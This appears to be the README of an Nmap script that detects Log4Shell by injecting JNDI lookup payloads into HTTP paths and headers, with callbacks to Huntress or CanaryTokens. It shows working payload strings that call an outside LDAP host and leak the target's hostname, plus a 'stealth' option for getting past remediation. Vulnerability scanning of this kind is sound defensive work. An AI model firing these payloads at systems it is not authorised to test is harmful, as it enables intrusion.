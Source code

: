 ## log4shell.nse
Injects a Huntress/CanaryTokens/custom log4shell payload in HTTP requests described by JSON templates.
Results expire after 30 minutes.

### Sample usage
```
$ nmap --script log4shell.nse --script-args id=<uuid>,mode=huntress -p 80 localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-11 12:43 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000059s latency).

PORT   STATE SERVICE
80/tcp open  http
|_log4shell: Check https://log4shell.huntress.com/view/<uuid> for results.

Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
```

### Options
* `id`: Unique id linked with this scan.
* `mode`: Payload template, one of `huntress`, `canary_tokens` or `custom`.
* `payload`: Specify a custom payload, should include `%s` where the unique id related to this scan will be replaced.
* `stealth`: Bypass initial remediation methods by masking `ldap` in the payload, this may cause the payload to execute multiple times. 
* `templates`: Path to a custom json templates file. 


### Examples

* Huntress:
```
$ nmap --script log4shell.nse --script-args=id=<hash>,mode=huntress -p http* 127.0.0.1
```

* CanaryTokens:
```
$ nmap --script log4shell.nse --script-args=id=<hash>,mode=canary_tokens -p http* 127.0.0.1
```

* Custom payload:
```
$ nmap --script log4shell.nse --script-args=id=<hash>,mode=custom,payload="jndi:dns:/%s.tracker.com" -p http* 127.0.0.1
```

### Templates
The script sends the payload depending on the template config. Many templates can be defined in a single json template file, this will result in multiple requests to be send to each target.


The following example will send a single `HTTP` `GET` request for each port `Nmap` detected as open.

* It's recommended to use the `-p http*` option when running `Nmap` so we don't spam ports that do not speak `http`.

Configurable template properties:
* `id`: Unique identifier of the template.
* `name`: Name of the template.
* `method`: HTTP verb for the request `GET`, `HEAD`, `POST`, `PUT`, ... , default: `"GET"`.
* `path`: URI to send the request, any query string parameter should be added here, default: `"/"`.
* `headers`: Array of headers to send with the request.
* `body`: Body of the request, specially when using `POST`/`PUT`/... methods.

**Example:**
```json
[
    {
        "id": "1",
        "name": "sample-template",
        "method": "GET",
        "path": "/{payload}?utm_source={payload}",
        "headers": [
            {
                "name": "User-Agent",
                "format": "{payload}"
            },
            {
                "name": "Referer",
                "format": "{payload}"
            },
            {
                "name": "Cookie",
                "format": "JSESSIONID={payload}"
            }
        ]
    }
]
```
This will result in the following http request:
```
HTTP GET /${jndi:ldap://x${hostName}.L4J.XXX.canarytokens.com/a}?utm_source=${jndi:ldap://x${hostName}.L4J.XXX.canarytokens.com/a}
Headers:
Connection: close
User-Agent: ${jndi:ldap://x${hostName}.L4J.XXX.canarytokens.com/a}
Cookie: JSESSIONID=${jndi:ldap://x${hostName}.L4J.XXX.canarytokens.com/a}
Referer: ${jndi:ldap://x${hostName}.L4J.XXX.canarytokens.com/a}
Host: localhost:7800
```



References:
- https://log4shell.huntress.com/
- https://canarytokens.org/generate
- https://www.lunasec.io/docs/blog/log4j-zero-day/

